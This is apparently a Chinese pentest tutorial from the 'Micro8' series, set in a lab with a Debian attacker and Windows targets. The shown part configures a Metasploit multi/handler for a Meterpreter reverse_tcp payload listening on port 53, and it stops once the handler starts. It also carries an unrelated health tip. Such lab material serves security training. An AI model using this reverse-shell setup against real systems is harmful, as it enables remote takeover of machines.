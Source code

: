 ```yaml
---
title: 94、基于实战中的small-payload
date: 2019-09-21 19:07:04
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

**攻击机：**   
192.168.1.5 Debian  
**靶机：**   
192.168.1.4 Windows 7  
192.168.1.119 Windows 2003

### 攻击机配置：

payload：windows/meterpreter/reverse_tcp
```code
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.5 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53 
```